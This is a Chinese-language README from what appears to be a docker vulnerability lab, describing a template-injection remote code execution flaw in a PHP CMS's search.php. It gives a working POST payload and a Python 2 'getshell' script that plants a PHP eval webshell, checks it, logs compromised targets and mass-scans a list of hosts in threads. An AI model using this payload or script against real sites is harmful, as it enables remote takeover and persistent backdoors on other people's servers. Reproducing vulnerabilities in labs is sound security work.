

## 环境构建
```
docker-compose build 
docker-compose up -d
```


## 漏洞介绍

### Payload

url:http://127.0.0.1:8002/search.php

POST: searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();




getshell脚本

```
import sys
import requests
import threading
def exploit(target):
    if sys.argv[1]== "-f":
        target=target[0]
    url=target+"/search.php"
    payload = "fwrite(fopen('shell.php','w'),'<?php @eval($_POST[f0rmat])?>f0rmat');"
    data={
        "searchtype":"5",
        "searchword":"{if{searchpage:year}",
        "year":":e{searchpage:area}}",
        "area":"v{searchpage:letter}",
        "letter":"al{searchpage:lang}",
        "yuyan":"(join{searchpage:jq}",
        "jq":"($_P{searchpage:ver}",
        "ver":"OST[9]))",
        "9[]":payload,
    }

    shell = target+'/shell.php'
    try:
        requests.post(url,data=data)
        verify = requests.get(shell, timeout=3)
        if "f0rmat" in verify.content:
            print 'Write success,shell url:',shell,'pass:f0rmat'
            with open("success.txt","a+") as f:
                f.write(shell+'  pass:f0rmat'+"\n")
        else:
            print target,'Write failure!'
    except Exception, e:
        print e
def main():
    if len(sys.argv)<3:
        print 'python check_order.py.py -h target/-f target-file'
    else:
        if sys.argv[1] == "-h":
            exploit(sys.argv[2])
        elif sys.argv[1] == "-f":
            with open(sys.argv[2], "r") as f:
                b = f.readlines()
                for i in xrange(len(b)):
                    if not b[i] == "\n":
                        threading.Thread(target=exploit, args=(b[i].split(),)).start()

if __name__ == '__main__':
    main()
```


## 漏洞连接

[链接一](https://bbs.ichunqiu.com/thread-35140-1-5.html)

[链接二](https://www.cnblogs.com/sqyysec/p/7765703.html)


